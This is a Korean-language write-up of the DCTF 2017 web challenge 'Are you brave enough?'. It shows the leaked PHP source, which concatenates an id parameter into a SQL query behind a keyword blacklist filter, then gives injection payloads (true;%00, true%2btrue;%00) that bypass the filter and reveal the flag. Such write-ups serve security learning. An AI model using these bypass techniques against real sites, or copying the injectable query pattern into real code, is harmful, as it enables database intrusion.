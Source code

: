 # [WEB] DCTF 2017 - Are you brave enough?

# Description
You have a simple challenge, proove your web skills and get the flag. Website

> Update 10:00 EEST: Check index.php~.

# Analysis

문제 페이지(https://brave.dctf-quals-17.def.camp/)에 접속하면 Nop.이란 단어만 출력될 뿐 아무 반응도 없다.
index.php~를 요청하면 백업 파일을 통해 원본 소스를 얻을 수 있다.
```php
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {    
    die('<h3>Nop.</h3>');
}
```
단순한 SQLi문제로써, 다양한 필터링이 걸려있다.
필터링만 우회해 주면 쉽게 해결될 것 같다.

# Exploit
1. SQLi

## SQLi
우선 id의 경우 Integer형태로 받는데 숫자가 필터링 되어있으며, id에 맞는 key또한 필요하고 #나 --와 같은 주석이 필터링 되어있다.
where절의 and 뒷부분을 제거하기 위해 id의 마지막에 ;%00을 삽입하면 되고 숫자가 필터링이 되어있으나 true나 false는 사용할 수 있으므로 이를 이용하도록 하자.
id에 1을 넣어 서버에 요청하면 다음과 같다.
`https://brave.dctf-quals-17.def.camp/index.php?id=true;%00`
```
Users:
    Try Harder
```

id에 2를 넣어 서버에 요청하면 다음과 같다.
`https://brave.dctf-quals-17.def.camp/index.php?id=true%2btrue;%00`
```
Users:
    DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}
```
2를 요청했을 때, FLAG을 얻을 수 있다.

**DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}**
